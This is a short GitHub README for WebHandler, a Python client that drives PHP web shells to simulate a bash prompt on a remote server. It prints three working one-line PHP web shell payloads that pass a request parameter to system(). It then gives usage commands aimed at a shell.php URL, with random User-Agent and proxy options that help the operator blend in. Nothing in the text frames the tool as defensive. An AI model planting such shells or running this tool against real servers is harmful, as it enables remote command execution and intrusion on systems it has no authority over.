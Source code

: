 
WebHandler - command controller for PHP system function
---
![My image](http://s9.postimage.org/6u4546aov/icommand.png)

### Info: ###
---
WebHandler is a command controller to handle PHP _program execution functions_ like system, passthru, exec and etc...
The script tries to simulate Linux bash as it works from CLI.
As of optional settings it supports HTTP proxy together with HTTP header values "User-Agent".
It sends requests to the server through urllib/urllib2 [Python][] modules.

* WebHandler works for **POST** and **GET** requests:
    - `<?php system($_GET['cmd']); ?>`
    - `<?php system($_POST['cmd']); ?>`
    - `<?php system($_REQUEST['cmd']); ?>`

### Usage: ###
---
* --url is a positional argument withing GET and POST requests:
    - python webhandler.py --url http://www.mywebsite.com/shell.php?cmd=
    - python webhandler.py --url http://www.mywebsite.com/shell.php --method POST --parameter cmd
    - python webhandler.py -u http://www.mywebsite.com/shell.php?cmd= --random-agent
    - python webhandler.py -u http://www.mywebsite.com/shell.php?cmd= --proxy http://127.0.0.1:8080


__p.s.__
---
If your [Python][]'s version < 2.7.x
Then [argparse][] **is required**.

To install it run (as root):
`easy_install argparse` **OR** `pip --install argparse`

[readline][] **is optional**.

This module it used to provide elaborate line editing and history features

[Python]: http://www.python.org/download/
[argparse]: http://docs.python.org/library/argparse.html
[readline]: http://cnswww.cns.cwru.edu/php/chet/readline/rltop.html

